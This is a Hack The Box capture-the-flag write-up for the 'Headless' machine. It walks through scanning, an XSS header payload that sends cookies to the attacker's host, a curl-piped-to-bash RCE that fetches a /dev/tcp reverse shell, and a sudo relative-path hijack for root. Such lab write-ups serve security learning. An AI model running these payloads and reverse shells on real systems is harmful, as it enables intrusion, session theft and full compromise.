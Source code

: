 # Machine Headless from [Hack The Box](https://www.hackthebox.com)

Target ip: 10.10.11.8

## 1) Reconnaissance
As always we start scanning the target with `nmap`
```
nmap -p- -sS -n -Pn -vvv --min-rate 7000 -oG open_ports 10.10.11.8
```
There are **two open ports** are: 22 (SSH) and 5000.

We can obtain more information on the services running on those ports using some scanning scripts from nmap with the following command
```
nmap -p22,5000 -sCV --min-rate 7000 -n -oN ports_details 10.10.11.8
```
`-sC:` to run default reconnaissance scripts \
`-sV:` to perform a version scan

We can see that TCP port 5000 is hosting a web server so from the browser we go to `http://10.10.11.8:5000/` and find out a button that redirects as to a "support page" containing a form.

<style>
.center-60 {
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 60%;
}
</style>

<img src="imgs/homepage.png" alt="Home page" width="50%" height="50%" class="center-60">

<img src="imgs/support.png" alt="Support page" width="80%" height="50%" class="center-60">

Before playing with the form in the support page it would be interesting to do some fuzzing hoping to find more endpoints.

```
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x html,php,txt,py -q
```

# Gaining access to target machine

After playing a while with the form fields I wasn't able to obtain neither XSS nor SQL injections. So I decided to go back and look for any other endpoint gobuster may have found and the only other results was `/dashboard` with code 500, so since I can't access dashboard nor gain access with the fields from the form, I will try manipulating the request headers.

Following the first approach on [this blog](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) we can try to steal cookies which may help us to bypass the security of `/dashboard`.

So the idea is to add the following to some fields on the header request (using Burpsuite's repetear here)
```
<script>var i=new Image(); i.src="http://<MY-IP>/?cookie="+btoa(document.cookie);</script>
```
But before sending the requests we need to open a http server:\
`python3 -m http.server -m 80`

Once the requests go throw we receive, in the terminal running the python server, a cookie:
`aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=`\
It's base64 encoded so we decode it
```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
#is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Turns out the cookie's name is `is_admin`, therefore it makes sense trying to use it to bypass `/dashboard` security.

To do so, instead of continue using Burpsuite I'm gonna use the browser directly. In my case I'm using Firefox but any web browser works the same. What we need to do before going to the desired endpoint is to manually add the obtained cookie to the request, for that we use the 'web developer tools' tab from the browser and add our cookie there.

![Cookie](imgs/cookie.png)

It worked! We bypassed the 500 code! But we are not inside target machine yet.

Now the panel does not contain too much info, just a button and a drop down list to pick dates. Whenever we see this kind of drop-down lists that forces us to some predefined inputs it's a good idea to intercept the requests with a proxy and manually modifies those. \
So once again we use Burpsuite and intercept the request that happens when we press the 'Generate Report' button.
![Dashboard-bypass](imgs/dashboard-bypass.png)


Modifying the date does not seem to be doing anything. BUT, the server is executing our commands, we achieved RCE!
How? This is an example payload:

![alt text](imgs/payload.png)

I'm using `curl` to read the content of a file from my machine and piping it to bash so the server executes it. The content of that `pwned.sh` is nothing else than a reverse shell
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```
Before sending the request from Burpsuite's repeater we must start listening on the choosen port (434) and open a server to share the file
```
nc -nlvp 434
python -m http.server 443
```

After sending the request we receive a connection in the terminal running netcat.

## Retrieving user flag
We are already logged in as the user `dvir` so retrieving the user flag is easy
`cat /home/dvir/user.txt`

## Scalating privileges
Now the challenge is to obtain root access in order to retrieve the root flag.

As always my first approach is to run `sudo -l` to see if we have any special access.
It happens that the user `dvir` is able to run the script `/usr/bin/syscheck` with sudo levels.

![Dvir user](imgs/dvir-user.png)
![Serving pwned script](imgs/sharing-pwned.png)

![Scalating privilegs](imgs/scalating-priv.png)

Inspecting that script we realize it's running another script called `initdb.sh` using a relative path. So we just go ahead and create our own file with the same name, the content is would be -once again, a reverse shell. And since we are going to run it as sudo, the root user is the one that would be stablishing that connection.
```
# content of initdb.sh
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```

From host machine we use netcat to listen on a port 
```
nc -nlvp 434
```

```
# we run the syscheck script as sudo
sudo /usr/bin/syscheck
```

On the terminal listening with netcat we received a connection! And the user is **root**.\
Now we get the remaining flag 

`cat /root/root.txt`


## Summary

We were able to vulenrate this machine because of the following vulnerabilities:

* Server on port 5000 ended up being vulnerable to XSS via request's headers.
* Cookie hijacking allowed us to bypass `/dashboard` security panel.
* Improper sanitization of payload request allowed an RCE.
* User dvir is able to run a vulnerable script as sudo.